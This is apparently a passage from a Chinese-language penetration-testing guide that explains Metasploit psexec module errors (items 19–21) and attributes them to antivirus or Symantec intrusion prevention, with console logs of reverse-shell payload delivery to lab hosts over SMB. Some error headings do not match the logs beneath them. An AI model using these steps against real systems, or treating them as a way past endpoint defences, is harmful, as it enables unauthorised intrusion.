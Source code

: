 ### (19) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_OBJECT\_NAME\_NOT\_FOUND

报错原因：目标主机上有类似防病毒的系统，所以无法正常工作，与（17）的报错有点相似。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...
\[\*\] Uploading payload...
\[\*\] Created \\rcErXTSH.exe...
\[\*\] Deleting \\rcErXTSH.exe...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_SHARING\_VIOLATION (Command=6 WordCount=0)
```

### (20) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_SHARING\_VIOLATION

报错原因：目标主机上有类似防病毒的系统，文件可能已被隔离，所以无法正常工作。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse TCP handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.109:445 as user 'administrator'...
\[\*\] Selecting PowerShell target
\[\*\] Executing the payload...
\[+\] Service start timed out, OK if running a command or non-service executable...
\[\*\] Sending stage (205891 bytes) to 192.168.1.109
\[\*\] Sending stage (205891 bytes) to 192.168.1.109
\[\*\] Sending stage (205891 bytes) to 192.168.1.109
\[\*\] Sending stage (205891 bytes) to 192.168.1.109
\[...SNIP...\]
```

### (21) Symantec Endpoint Protection

报错原因：能够正常工作，但是由于目标主机上运行着 Symantec Endpoint Protection 并开启着网络入侵防护功能（Network Intrusion Prevention），所以不能获取一个完整 Session，流量检测！

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse TCP handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.109:445 as user 'administrator'...
\[\*\] Selecting PowerShell target
\[\*\] Executing the payload...
\[+\] Service start timed out, OK if running a command or non-service executable...
\[\*\] Exploit completed, but no session was created.
```
